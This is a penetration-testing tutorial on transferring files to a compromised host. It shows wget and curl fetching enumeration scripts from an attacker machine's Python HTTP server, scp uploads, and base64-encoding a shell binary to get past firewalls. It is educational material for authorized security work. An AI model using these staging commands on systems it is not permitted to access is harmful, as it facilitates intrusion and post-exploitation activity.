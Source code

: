 # Transferring Files
During any penetration testing exercise, it is likely that we will need to transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host. While tools like Metasploit with a Meterpreter shell allow us to use the Upload command to upload a file, we need to learn methods to transfer files with a standard reverse shell.

## Using wget / curl
On eway is to run a [Python http server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/Tools_and_setup/set_up_a_local_testing_server) on our machine and use `wget` or `curl` to download the file onto the remote host.

To run the http server we can use the following commands:
```
$ cd folder/with/scripts
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now on the target we have to run `wget` or `curl` to download files:
```
$ wget http://10.10.14.1:8000/linenum.sh
```

```
$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

`10.10.14.1` is the IP of our own system and `8000` the port that is running the Python http server

## Using SCP
If we have already ssh access to the target we can use `scp` to upload a file to the system:
```
$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

The syntax to upload a file is `scp [LOCAL PATH] user@host:[REMOTE PATH]`

## Using Base64
If we aren't able to up- or download files due to firewall restrictions, we can Base64 encode the file, paste the string onto the target system and decode it.

To encode a binary we can use this command:
```
$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
* `shell` is the binary that we want to upload
* `-w 0` disable line wrapping

Now we can copy the string and decode it at the target:
```
$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
* `-d` decode

## Validating File Transfers
To validate a transferred file we can check it with the `file` command or compare the file hashes of our local file and the uploaded file:
```
$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

```
$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```